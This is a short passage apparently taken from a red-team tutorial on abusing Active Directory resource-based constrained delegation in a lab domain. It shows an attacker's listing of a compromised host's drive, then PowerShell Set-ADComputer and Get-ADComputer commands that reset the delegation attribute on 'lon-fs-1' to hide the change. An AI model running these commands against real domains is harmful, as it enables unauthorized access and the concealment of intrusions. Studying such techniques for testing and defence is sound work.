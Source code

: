 ```batch
          dir     01/23/2025 15:46:17   Program Files
          dir     01/23/2025 15:46:18   Program Files (x86)
          dir     01/24/2025 14:21:18   ProgramData
          dir     01/23/2025 13:47:43   Recovery
          dir     01/24/2025 14:18:02   System Volume Information
          dir     01/24/2025 14:17:49   Users
          dir     01/24/2025 13:34:02   Windows
 12kb     fil     02/21/2025 06:15:31   DumpStack.log.tmp
 1gb      fil     02/21/2025 06:15:31   pagefile.sys
```

We can then remove the entry by running Set-ADComputer again with just the original account.

```batch
PS C:\Users\Attacker> Set-ADComputer -Identity 'lon-fs-1' -PrincipalsAllowedToDelegateToAccount $ws1 -Server 10.10.120.1 -Credential $Cred
PS C:\Users\Attacker> Get-ADComputer -Identity 'lon-fs-1' -Properties PrincipalsAllowedToDelegateToAccount -Server 10.10.120.1 -Credential $Cred | select Name,PrincipalsAllowedToDelegateToAccount

Name     PrincipalsAllowedToDelegateToAccount
----     ------------------------------------
LON-FS-1 {CN=LON-WS-1,OU=Member Servers,DC=contoso,DC=com}
```
